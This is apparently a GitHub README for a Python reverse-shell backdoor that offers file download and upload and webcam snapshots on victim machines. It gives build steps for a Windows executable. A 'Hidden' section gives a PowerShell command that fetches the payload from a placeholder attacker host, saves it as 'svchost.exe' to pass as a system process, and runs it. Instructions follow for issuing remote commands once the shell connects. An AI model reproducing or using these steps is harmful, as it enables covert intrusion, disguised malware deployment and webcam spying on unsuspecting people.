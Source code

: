 # HitDA
This is a backdoor application based on TCP Reverse Shell write in Python3.
(Not shellcode).In addition to the basic reverse shell function
, you can also use some functions, Like **File Download/Upload**, **Webcam snapshot**.
 
## Setup
````
git clone https://github.com/HalukShan/HitD.git
````
 You need to install some dependencies on your Kali Linux, Use
 ````
cd HitDA; pip3 install -r ./requirements.txt
````
And install `pyinstaller`
```
pip3 install pyinstaller
```
Next install `docker-pyinstaller`, this tool help you generate a 
Windows `.exe` file more easily, but you should install docker first.
Now I give the complete steps below:

Add Docker PGP Authkey
````
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
````
Config Docker APT
```
echo 'deb [arch = amd64] https://download.docker.com/linux/debian buster stable'| sudo tee /etc/apt/sources.list.d/docker.list
```
Update apt and install
```
sudo apt-get update; sudo apt-get install docker-ce
```
Enable docker
```
sudo systemctl enable docker
```
After complete these steps, you can download `docker-pyinstaller`:
```
cd HitDA; git clone https://github.com/cdrx/docker-pyinstaller.git
```
Now you've done all the steps

## Usage
```
cd HitDA
```
Run the main script
```
python3 HitDA.py
```
Now you can see the menu
```
[*] Starting HitD...
[+] Init Success


    __    __   __  .___________. _______       ___      
   |  |  |  | |  | |           ||       \     /   \     
   |  |__|  | |  | `---|  |----`|  .--.  |   /  ^  \    
   |   __   | |  |     |  |     |  |  |  |  /  /_\  \   
   |  |  |  | |  |     |  |     |  '--'  | /  _____  \  
   |__|  |__| |__|     |__|     |_______/ /__/     \__\ 
                                                        

author: HalukShan
 =========================================================
||                     Menu Option                       ||
||                                                       ||
|| [0] Generate Script                                   ||
|| [1] Start Listening                                   ||
|| [9] Exit                                              ||
 =========================================================
```

### Hidden
You can use the **powershell** 
script to automate download the script and hide in some directorys, then execute
````
mkdir C:\tmp
cd C:\tmp
powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://youripordomain/script.exe','svchost.exe');
svchost.exe
````
Save as .bat file, and use **battoexe** to generate a small exe file.

### Listening
Choose option 1 to start the listening mode, enter your listening host
and port, then wait the connection. When successfully connect to the cmd shell, you can use some command like

Download the specified remote file and save as local filename 
```
download remote_filename local_filename
```

Webcam snapshot and save as filename
```
webcam_snap filename
```

There are some common usages of cmdshell
```
cd path
mkdir dirname
echo "content" >> filename
del filename
tasklist
taskkill /PID pid /F
netstat
```

## TroubleShoot
If you got the below error message when generating
```
Failed to establish a new connection: [Errno 11002] getaddrinfo failed')': /simple/opencv-python/
```
Adding Google DNS to your local config
```
vim /etc/resolv.conf
```
Add
```
# Google IPv4 nameservers
nameserver 8.8.8.8
nameserver 8.8.4.4
```
